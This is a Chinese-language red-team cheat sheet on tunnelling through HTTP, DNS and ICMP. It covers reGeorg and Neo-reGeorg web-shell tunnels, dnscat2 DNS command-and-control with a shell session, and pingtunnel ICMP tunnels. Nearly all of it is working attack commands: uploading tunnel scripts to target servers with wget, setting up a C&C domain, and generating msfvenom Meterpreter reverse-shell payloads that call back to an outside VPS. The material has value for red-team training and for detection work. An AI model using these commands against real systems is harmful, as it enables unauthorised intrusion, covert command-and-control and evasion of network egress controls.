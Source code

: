 # HTTP_DNS_ICMP代理隧道

## HTTP代理

### reGeorg

reGeorg 支持 ASPX，ASHX，PHP，JSP 等WEB脚本，并特别提供了一个 tomcat5 版本。

用法

```bash
python2 reGeorgSocksProxy.py -p 8080 -u http://172.26.2.43:7001/bea_wls_internal/tunnel.t5.jsp
```

### Neo-reGeorg

1. 设置密码生成`tunnel.(aspx|ashx|jsp|jspx|php)`并上传到WEB服务器

   ```bash
   python3 neoreg.py generate -k passwd
   [+] Mkdir a directory: neoreg_servers
   [+] Create neoreg server files:
      => neoreg_servers/tunnel.ashx
      => neoreg_servers/tunnel.aspx
      => neoreg_servers/tunnel.jsp
      => neoreg_servers/tunnel.jspx
      => neoreg_servers/tunnel.php
   ```

2. 下载`tunnel`脚本到目标WEB服务(用python起http服务)

   ```bash
   wget http://192.168.1.105:8000/tunnel.jsp
   ```

3. 使用`neoreg.py`连接WEB服务器，在**本地**建立`socks`代理，代理默认端口`1080`

   ```bash
   python3 neoreg.py -k passwd -u http://218.76.8.99:38080/sh/tunnel.jsp
   ```

## DNS隧道

### Dnscat2

#### Dnscat2直连模式

1. 启动服务端

   ```bash
   ruby ./dnscat2.rb
   ```

2. 启动客户端

   ```bash
   ./dnscat --dns server=192.168.1.105,port=53 --secret=0f69f5a5e89a18b0c47fe12ec6f1896aW
   ```

3. 服务端接收到会话

   ```
   获取shell：
   windows
   session -i 1
   shell
   session -i 2
   ```

4. 直连模式流量特征

   ```
   tcpdump udp dst port 53
   ```

#### Dnscat2中继模式

> 准备
> 1. 一台公网C&C服务器
> 2. 一台内网靶机
> 3. 一个可配置解析的域名
>
> 
>
> 配置DNS域名解析：
> 1. 创建A记录，将自己的域名解析服务器（ns.heetian.cn）指向云服务器（139.155.49.43）
> 2. 创建NS记录，将子域名 dnsch.hetian.cn 的DNS解析交给 ns.heetian.cn

1. 启动服务端

   ```
   ruby ./dnscat2.rb dnsch.heetian.cn --secret=xxx
   ```

2. 启动客户端

   ```
   ./dnscat --secret=mingy dnsch.heetian.cn
   ```

3. 服务端接收会话

## ICMP 隧道

### Pingtunnel

> 目的：上线仅icmp协议出网的内网主机

### ICMP隧道转发TCP上线MSF

1. VPS启动ICMP隧道服务端

   > 139.155.49.43，icmp服务端和msf服务都在此VPS上

   ```
   ./pingtunnel -type server
   ```

2. 靶机启动ICMP隧道客户端

   ```
   pingtunnel.exe -type client -l 127.0.0.1:9999 -s 139.155.49.43 -t 139.155.49.43:7777 -tcp 1 -noprint 1 -nolog 1
   ```

   > icmp 客户端监听 127.0.0.1:9999 ，通过连接到 139.155.49.43 的 icmp 隧道，将127.0.0.1:9999 收到的 tcp 数据包转发到 139.155.49.43:7777

3. MSF 生成反弹 shell 的 payload 上传到靶机

   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe > 9999.exe
   ```

4. 执行 payload 反弹 shell 到 MSF

### ICMP隧道转发Socks上线MSF

1. VPS启动ICMP隧道服务端

   > 139.155.49.43，icmp服务端和msf服务都在此VPS上

   ```
   ./pingtunnel -type server
   ```

2. 靶机启动ICMP隧道客户端

   ```
   pingtunnel.exe -type client -l 127.0.0.1:9999 -s 139.155.49.43 -sock5 1 -noprint 1 -nolog 1
   ```

   > icmp隧道客户端监听127.0.0.1:9999启动socks5服务，通过连接到139.155.49.43的
   > icmp隧道，由icmpserver转发socks5代理请求到目的地址 139.155.49.43:8899

3. MSF生成反弹shell的payload

   生成支持socks5代理的反向payload

   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=8899 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=9999 -f exe > 1.exe
   ```

4. 执行payload反弹shell到MSF